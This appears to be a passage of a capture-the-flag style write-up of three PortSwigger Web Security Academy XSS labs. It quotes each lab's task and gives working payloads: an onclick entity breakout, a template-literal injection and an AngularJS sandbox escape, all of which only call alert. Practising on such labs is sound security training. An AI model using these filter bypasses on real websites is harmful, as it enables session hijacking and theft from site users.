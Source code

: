 ![](img42.png)

## 17. Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.
```

Payload en el lugar de website.

```
http://a.com&apos;-alert(document.domain)-&apos;
```

![](img43.png)

## 18. Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string.
```

Payload

```
${alert(1)}
```

![](img44.png)

## 19. Lab: Reflected XSS with AngularJS sandbox escape without strings (P)

```
This lab uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the alert function without using the $eval function.
```

URL

```
https://acb21f281e6b46ae80ce52c30094008a.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
